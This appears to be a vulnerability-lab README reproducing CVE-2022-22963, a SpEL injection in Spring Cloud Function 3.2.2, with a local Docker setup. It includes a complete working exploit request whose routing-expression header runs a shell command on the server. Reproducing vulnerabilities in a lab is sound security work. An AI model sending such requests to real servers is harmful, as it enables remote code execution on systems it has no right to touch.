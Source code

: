 # Spring Cloud Function SpEL Code Injection (CVE-2022-22963)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Cloud Function provides a common model for deploying function-based software on a variety of platforms, including FaaS (function as a service) platforms like Amazon AWS Lambda.

References:

- <https://tanzu.vmware.com/security/cve-2022-22963>
- <https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw>
- <https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f>

## Vulnerability Environment

Execute the following command to start a server that uses Spring Cloud Function 3.2.2:

```
docker-compose up -d
```

After server is started, execute `curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test` you can convert the user input to uppercase.

## Vulnerability Reproduce

There is a SpEL expression injection in the request header `spring.cloud.function.routing-expression`.

Send the following request to execute `touch /tmp/success` on the target server:

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![](1.png)

As you can see, `touch /tmp/success` has been executed successfully.

![](2.png)
